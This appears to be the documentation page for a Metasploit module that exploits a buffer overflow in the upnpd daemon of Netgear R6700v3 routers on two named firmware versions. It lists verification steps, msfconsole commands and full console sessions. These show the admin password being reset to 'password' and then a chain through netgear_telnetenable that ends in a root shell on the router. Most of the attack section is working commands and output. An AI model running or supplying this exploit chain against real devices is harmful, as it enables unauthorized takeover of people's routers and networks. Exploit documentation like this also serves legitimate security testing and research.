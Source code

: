 ## Description

This module exploits a buffer overflow vulnerability in the upnpd daemon (/usr/sbin/upnpd), running on the 
router Netgear R6700v3, ARM Architecture, firmware version V1.0.4.82_10.0.57 and V1.0.4.84_10.0.58 to reset the password 
of the "admin" user on affected systems back to its factory default of "password". Support for other versions has not
been added due to time constraints; users are encouraged to refer to the advisory for details on how to update the
offset to the admin password reset functionality to support other firmware versions.

The vulnerability can only be exploited by an attacker on the LAN side of the router, however it can be exploited
by unauthenticated attackers. It will reset admin password to a factory defaults "password". Successful exploitation
will crash the upnpd daemon and it will not restart, so attackers can only exploit this vulnerability once per reboot
of the router. After using this module, to achieve code execution, do the following steps manually:

1. Login to 192.168.1.1 with creds 'admin:password', then:
    * go to Advanced -> Administration -> Set Password
 	* Change the password from 'password' to <WHATEVER>
2. Run metasploit as root, then:
 	* use exploit/linux/telnet/netgear_telnetenable
 	* set interface <INTERFACE_CONNECTED_TO_ROUTER>
 	* set rhost 192.168.1.1
 	* set username admin
 	* set password <WHATEVER>
 	* run it and login with 'admin:<WHATEVER>'
3. Enjoy your root shell!

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the team Flashback (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

* [Netgear R6700v3 firmware version V1.0.4.82_10.0.57](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.82_10.0.57.zip)
* [Netgear R6700v3 firmware version V1.0.4.84_10.0.58](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.84_10.0.58.zip)

## Verification Steps
  Example steps in this format:

  1. Connect the R6700v3 router to your local area network and ensure you can access it.
  2. Browse to the admin portal for the router, which will be located by default at `http://192.168.1.1`.
  3. Go to Advanced -> Administration -> Set Password
  4. Change the password from `password` to another password of your choice.
  5. Log out and browse again to `http://192.168.1.1`. Verify that you can log into the router with the new password.
  6. Start msfconsole
  7. Do: ```use auxiliary/admin/http/netgear_r6700_pass_reset```
  8. Set RHOST
  9. Run ```check``` and verify that the target is vulnerable.
  10. Do: ```run```
  11. Browse admin portal for the router, and 
  verify you can successfully log in with the username `admin` and the password `password`.

## Options

### RHOSTS

IP address of the LAN interface of the vulnerable target.

### RPORT 

upnpd port on the target. Default 5000.

## Scenarios

### Netgear R6700v3 firmware version V1.0.4.84_10.0.58

```
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check 

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - The target is vulnerable.

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > run
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*] 	1.1- go to Advanced -> Administration -> Set Password
[*] 	1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*] 	2.1- use exploit/linux/telnet/netgear_telnetenable
[*] 	2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*] 	2.3- set rhost 192.168.1.1
[*] 	2.3- set username admin
[*] 	2.4- set password <WHATEVER>
[*] 	2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > ifconfig | grep enx
[*] exec: ifconfig | grep enx

enxd03745775fdd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > set interface enxd03745775fdd
interface => enxd03745775fdd
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
username => admin
msf5 exploit(linux/telnet/netgear_telnetenable) > set password Flashback
password => Flashback
msf5 exploit(linux/telnet/netgear_telnetenable) > set timeout 1500
timeout => 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address
[+] 192.168.1.1:23 - Using creds admin:Flashback
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-22 17:52:25 +0200

 login: admin
admin
Password: Flashback



BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id
id
uid=0(admin) gid=0(root)
# uname -a
uname -a
Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown

```

### Netgear R6700v3 firmware version V1.0.0.4.82_10.0.57

```
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > show options

Module options (auxiliary/admin/http/netgear_r6700_pass_reset):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    5000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.82_10.0.57) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*]     1.1- go to Advanced -> Administration -> Set Password
[*]     1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*]     2.1- use exploit/linux/telnet/netgear_telnetenable
[*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*]     2.3- set rhost 192.168.1.1
[*]     2.3- set username admin
[*]     2.4- set password <WHATEVER>
[*]     2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
```
